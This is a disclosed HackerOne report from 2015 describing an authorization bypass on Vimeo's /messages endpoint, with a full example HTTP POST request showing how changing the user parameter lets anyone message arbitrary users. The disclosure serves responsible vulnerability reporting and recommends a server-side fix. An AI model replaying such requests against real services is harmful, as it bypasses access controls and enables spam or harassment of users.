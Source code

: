 # Can message users without the proper authorization

## Report Details
- **Report ID**: 46113
- **URL**: https://hackerone.com/reports/46113
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-02-02T12:21:16.460Z
- **Disclosed**: 2015-04-01T14:25:03.844Z

## Reporter
- **Username**: jkjkjk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vimeo

## Vulnerability Information
It shouldn't be possible to send messages to users without following users:

> You must be following at least one Vimeo member before you can send a private message. To get started, find a friend, family member, or someone with cool videos and click the "Follow" button on their profile page. 

It's possible to bypass that by just sending a POST request to `/messages`:

```
POST /messages HTTP/1.1
Host: vimeo.com
User-Agent: [CENSORED]
Accept: text/html, application/xml, text/xml, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: https://vimeo.com/messages
Content-Length: 141
Cookie: [CENSORED]
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

name=Jens>&text=blaat&action=send_message&lightbox=true&user=[ANY USER ID HERE]&token=[CENSORED]
```

You can replace the `user` parameter with any random user ID and it will send the message without any issues.

**Fix:**
Add proper server side authorization on the `/messages` endpoint.

## Attachments
No attachments
